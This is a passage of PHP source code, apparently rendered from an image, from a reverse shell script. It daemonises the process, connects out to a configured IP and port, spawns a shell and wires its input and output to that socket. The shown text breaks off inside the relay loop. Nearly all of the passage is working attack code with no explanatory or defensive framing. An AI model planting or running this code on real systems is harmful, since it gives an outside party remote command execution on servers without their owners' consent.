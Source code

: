 ```plain

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
```